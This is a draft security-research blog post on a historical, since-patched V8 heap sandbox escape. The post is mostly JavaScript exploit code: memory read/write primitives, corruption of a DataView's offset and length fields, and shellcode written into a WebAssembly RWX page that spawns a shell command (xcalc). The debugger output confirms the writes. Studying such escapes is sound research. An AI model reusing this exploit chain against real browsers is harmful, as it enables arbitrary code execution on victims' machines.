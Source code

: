+++
tags = ["browser","v8","chromium"]
categories = ["Web Browsers", "Javascript Engines", "Chromium"]
description = "Corruption of the DataView object's `byte_length` and `byte_offset` fields results in arbitrary read and write primitives external to the heap sandbox."
date = "2023-04-08"
featuredpath = "date"
linktitle = ""
title = "Exploring Historical V8 Heap Sandbox Escapes II"
slug = "exploring-historical-v8-heap-sandbox-escapes-ii"
type = "post"
draft = true
+++

## Overview

Corruption of the DataView object's `byte_length` and `byte_offset` fields results in arbitrary read and write primitives external to the heap sandbox.

You can find the patch for this heap sandbox escape here: [\[sandbox\] Introduce BoundedSize](https://chromium-review.googlesource.com/c/v8/v8/+/3876823).


## Patch Analysis

...


## Exploit Primitives

```js
const addrof = o => {
  return Sandbox.getAddressOf(o);
};

const weak_read = p => {
  let reader = new Sandbox.MemoryView(p, 64);
  let view = new DataView(reader);
  return view.getBigUint64(0, true); 
};

const weak_write = (p, x) => {
  let writer = new Sandbox.MemoryView(p, 64);
  let view = new DataView(writer);
  view.setBigUint64(0, x, true);
};
```


## DataView Object Overview 

```js
let buf = new ArrayBuffer(128);
let view = new DataView(buf);

%DebugPrint(view);
```


## DataView Byte Offset Corruption

```js
let buf = new ArrayBuffer(128);
let view = new DataView(buf);

%DebugPrint(view);
%SystemBreak();
%DebugPrint(view);
```

```
 ► 0x5612b7a4a0c3 <Builtins_DataViewPrototypeSetBigUint64+1027>    mov    byte ptr [r8 + rdx], cl
```

```
pwndbg> vmmap -wx
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
     0xc34e5816000      0xc34e5817000 rwxp     1000 0      [anon_c34e5816]
pwndbg> p/x $r8 + $rdx
$1 = 0xc34e5816000
pwndbg> p/x $cl
$2 = 0xef
```


## Arbitrary Read Primitive

```js
let heap = (weak_read(0x18) >> 32n) << 32n;
let store = heap + ((weak_read(addrof(buf) + 0x20) & 0xffffffffn) << 8n);
let offset = 0xffffffffffffffffn - store + 1n;

weak_write(addrof(view) + 0x10, offset);              /* view.byte_offset */
weak_write(addrof(view) + 0x18, 0xffffffffffffffffn); /* view.byte_length */
```

```js
const strong_read = p => {
  return view.getBigUint64(Number(p), true);
};
```


## Arbitrary Write Primitive

```js
const strong_write = (p, x) => {
  return view.setBigUint64(Number(p), x, true);
};
```


## Code Execution

```js
let wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01,
  0x00, 0x04, 0x84, 0x80, 0x80, 0x80, 0x00, 0x01, 0x70, 0x00, 0x00, 0x05, 0x83,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x01, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00,
  0x00, 0x07, 0x91, 0x80, 0x80, 0x80, 0x00, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f,
  0x72, 0x79, 0x02, 0x00, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x8a,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
  0x0b
]);
let module = new WebAssembly.Module(wasm);

let instance = new WebAssembly.Instance(module);
let rwx = weak_read(addrof(instance) + 0x60);

let shellcode = [
  0x732f6e69622fb848n,
  0x66525f5450990068n,
  0x15e8525e54632d68n,
  0x4c50534944000000n,
  0x302e303a273d5941n,
  0x00636c6163782027n,
  0x0f583b6a5e545756n,
  0x0000000000000005n
];

for (let i = 0; i < shellcode.length; i++)
  strong_write(rwx + (8n * BigInt(i)), shellcode[i]);

instance.exports.main();
```


## References
 - [\[sandbox\] Introduce BoundedSize](https://chromium-review.googlesource.com/c/v8/v8/+/3876823)
